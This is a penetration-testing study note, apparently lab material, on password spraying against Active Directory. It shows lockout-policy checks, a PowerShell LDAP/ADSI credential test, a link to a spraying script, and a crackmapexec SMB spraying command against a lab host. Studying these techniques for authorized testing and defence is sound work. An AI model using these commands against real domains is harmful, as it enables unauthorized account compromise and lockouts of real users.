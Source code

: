 ```yaml
---
tags: crackmapexec, kerbrute, impacket
---
```

## Password Attacks (Password spraying)

Review domain's account policy:
(PS) `net accounts`
- Lockout threshold: number of failed login attempts before lockout
- Lockout observation window: amount of time after the last failed login that we can make additional attempts
- Lockout duration

### Using LDAP and ADSI to perform a low and slow password attack against AD users

```powershell
PS C:\Users\jeff> $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain() 

PS C:\Users\jeff> $PDC = ($domainObj.PdcRoleOwner).Name 

PS C:\Users\jeff> $SearchString = "LDAP://" 

PS C:\Users\jeff> $SearchString += $PDC + "/" 

PS C:\Users\jeff> $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))" 

PS C:\Users\jeff> $SearchString += $DistinguishedName 

PS C:\Users\jeff> New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```

If the password for the user account is correct, the object creation will be successful. If the password is invalid, no object will be created and we will receive an exception.

Can use a script for password spraying: https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1

### SMB password spraying (noisy + slow)

```
kali@kali:~$ cat users.txt 
dave 
jen 
pete 

kali@kali:~$ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```
- if "Pwn3d!" is added to the output, it means that the compromised account has admin privileges on the target system
